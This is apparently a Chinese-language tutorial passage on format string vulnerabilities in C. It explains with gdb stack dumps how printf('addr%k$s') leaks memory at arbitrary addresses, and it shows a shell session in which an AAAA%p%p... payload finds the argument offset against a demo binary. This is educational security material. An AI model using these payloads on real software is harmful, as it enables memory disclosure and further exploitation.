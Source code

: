 


##### 泄露任意地址的内存

- 上例中 s 是 main 函数的局部变量，所以读取到的内容在栈上。调用输出函数`printf`时，第一个参数的值其实就是格式化字符串format string的地址
- 当上例`leakmemory.c`的输入为"%s"，可以看到`printf`的栈上参数 1 和 2 均指向`%s`，第一个`%s`指的是`printf`的格式化字符串地址，而第二个`%s`则是格式化字符串的`%s`对应参数。亦即：第二个`%s`被作为参数传递给第一个作为格式化字符串使用的`%s`
```assembly
──────────────────────────────────[ stack ]──── # printf(s); 的栈 # 当上例 leakmemory.c 的输入为"%s"
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?) # 0xffffcd10: format string's address # 该地址存储 printf 的格式化字符串的地址
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?) # char* (address) as format string's 1st parameter # 格式化字符串的第一个参数
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)  ← $eax # string "%s" 0x25=% 0x73=s # 既被用作格式化字符串 也被用作格式化字符串的第一个参数
```

```c
printf("addr%k$s"); // 获取某个指定地址addr的内容的方法
// 假设格式化字符串相对函数调用为第k个参数 addr是个地址，高概率为不可见字符。 // k: 格式化字符串地址相对于 printf 第一个参数来说是第k个参数
```

- `printf("addr%k$s")`**原理**：`printf`的第一个参数为format string的地址，`addr`被存储在format string的开头。用`%k$s`控制`printf`解析对于第一个参数（即 存储format string地址的地址）来说第`k`个参数(即format string)，将其解析为字符串的地址。也就达到了将`addr`视作地址，输出`addr`上内容的目的。



- 确定该格式化字符串为第几个参数的方式：  `[tag]%p%p%p%p%p%p...`     重复某个字符的机器字长来作为tag(32bit ELF下为4byte char)，后面跟上若干`%p`输出栈上的内容，如果内容与tag重复，就有很大把握说明该地址是格式化字符串的地址

```bash
$ ./leakmemory     # [tag]%p%p%p%p%p%p... 方法确定 格式化字符串 是函数的第几个参数
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffffd3a00xf7fcb4100x80491890x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x8007025(nil)0xf7ffd000(nil)
```

- `0x41414141`在输出的第五个参数，则为格式化字符串的第4个参数。若输入`%4$s`会造成segmentation fault，是因为尝试将`%4$s`表示的地址`0x73243425`进行解析。vmmap可以查看各个地址段的权限

```assembly
────────── stack ──── # 输入 AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p 时 # printf(s); 的栈
0xffffd38c│+0x0000: 0x080491e5  →  <main+115> add esp, 0x10      ← $esp
0xffffd390│+0x0004: 0xffffd3a0  →  "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" # 0xffffd3a0 为 format string 的地址
0xffffd394│+0x0008: 0xffffd3a0  →  "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"
0xffffd398│+0x000c: 0xf7fcb410  →  0x080482b8  →  "GLIBC_2.0"
0xffffd39c│+0x0010: 0x08049189  →  <main+23> add ebx, 0x2e77
0xffffd3a0│+0x0014: "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" # format string 所在的地址 # 相对于0xffffd390来说是第 4 个参数
0xffffd3a4│+0x0018: "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" .........
```
